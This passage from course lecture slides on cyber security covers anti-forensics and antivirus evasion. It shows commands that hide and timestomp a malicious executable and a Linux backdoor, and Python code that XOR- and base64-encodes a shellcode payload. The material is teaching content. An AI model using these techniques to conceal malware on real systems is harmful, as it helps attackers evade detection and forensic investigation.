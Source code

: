 ### 📂 File Attribute Manipulation
```batch
REM Windows file hiding
attrib +h +s +r malicious_file.exe

REM Timestomp - modify file timestamps
timestomp malicious_file.exe -f legitimate_file.exe

REM Linux file hiding
touch -r /bin/ls /tmp/backdoor
chattr +i /tmp/backdoor
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 28 | Author: Milav Dabgar
</div>

---
layout: default
---

# Detection Evasion Techniques

<div class="grid grid-cols-2 gap-8">

<div>

## 🛡️ Antivirus Evasion

### 🔄 Payload Encoding and Encryption
```python
# XOR encoding
def xor_encode(data, key):
    encoded = bytearray()
    for i, byte in enumerate(data):
        encoded.append(byte ^ key[i % len(key)])
    return bytes(encoded)

# Base64 + XOR combination
import base64
def multi_encode(data, xor_key):
    xor_encoded = xor_encode(data, xor_key)
    b64_encoded = base64.b64encode(xor_encoded)
    return b64_encoded

# Payload packing
original_payload = b"\x90\x90\x90\x31\xc0\x50\x68..."
key = b"SecretKey123"
encoded_payload = multi_encode(original_payload, key)
```
